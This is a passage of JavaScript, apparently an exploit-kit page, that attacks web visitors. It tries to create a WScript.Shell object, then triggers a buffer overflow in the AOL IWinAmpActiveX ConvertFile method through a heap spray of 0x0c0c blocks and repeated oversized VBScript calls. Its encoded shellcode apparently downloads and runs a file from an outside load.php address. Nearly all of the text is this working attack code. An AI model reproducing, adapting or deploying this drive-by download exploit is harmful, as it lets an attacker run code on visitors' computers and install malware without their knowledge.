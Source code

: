 ```c
	if(a){
		try{
			var b=CreateO(a,'WScript.Shell');
			if(b){
				if(Go(a)){
					if(CheckIP()){
						Complete();
					} else {
						aolwinamp();
					}
					return true;
				}
			}
		} catch(e){}
	}
	i++;}
	aolwinamp();
}

// Link for the Exploit: packetstormsecurity.com/files/77631/AOL-IWinAmpActiveX-Class-ConvertFile-Buffer-Overflow.html
function aolwinamp(){
	try{
		var obj=document.createElement('object');
		document.body.appendChild(obj);
		obj.id='IWinAmpActiveX';
		obj.width='1';
		obj.height='1';
		obj.data='./directshow.php';
		obj.classid='clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		
		var shellcode=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D");
		
		var bigblock=unescape("%u0c0c%u0c0c");
		var headersize=20;
		var slackspace=headersize+shellcode.length;
		
		while(bigblock.length<slackspace)
			bigblock+=bigblock;
		var fillblock=bigblock.substring(0,slackspace);
		var block=bigblock.substring(0,bigblock.length-slackspace);
		
		while(block.length+slackspace<0x40000)
			block=block+block+fillblock;var memory=new Array();
		
		for(var i=0;i<666;i++){
			memory[i]=block+shellcode;
		}
		document.write('<SCRIPT language="VBScript">');
		document.write('bof=string(1400,unescape("%ff")) + string(1000,unescape("%0c"))');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('</SCRIPT>');
```